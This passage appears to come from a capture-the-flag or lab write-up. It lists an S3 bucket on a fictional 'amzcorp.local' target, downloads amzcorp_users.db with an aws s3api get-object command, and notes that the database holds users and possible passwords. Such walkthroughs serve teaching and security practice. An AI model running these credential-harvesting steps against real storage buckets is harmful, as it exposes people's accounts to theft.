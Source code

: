 ```
    {
      "Key": "amzcorp_products.db",
      "LastModified": "2023-09-19T16:12:39+00:00",
      "ETag": "\"72cf5ef0412404ed5636801a20e8397f\"",
      "Size": 12288,
      "StorageClass": "STANDARD",
      "Owner": {
        "DisplayName": "webfile",
        "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
      }
    },
    {
      "Key": "amzcorp_users.db",
      "LastModified": "2023-09-19T16:12:38+00:00",
      "ETag": "\"834b3fbb81109790a798385d5987a5fd\"",
      "Size": 12288,
      "StorageClass": "STANDARD",
      "Owner": {
        "DisplayName": "webfile",
        "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
      }
    }
  ]
}
```

We can execute `get-object` to download `amzcorp_users.db` to our computer
```
aws --endpoint-url http://cloud.amzcorp.local s3api get-object --bucket databases --key amzcorp_users.db amzcorp_users.db | jq  
{
  "AcceptRanges": "bytes",
  "LastModified": "2023-09-19T16:12:38+00:00",
  "ContentLength": 12288,
  "ETag": "\"834b3fbb81109790a798385d5987a5fd\"",
  "ContentLanguage": "en-US",
  "ContentType": "binary/octet-stream",
  "Metadata": {}
}
```

As a `sqlite3` format file, we can open it with `sqlitebrowser` and in the users table we can find different users and their possible passwords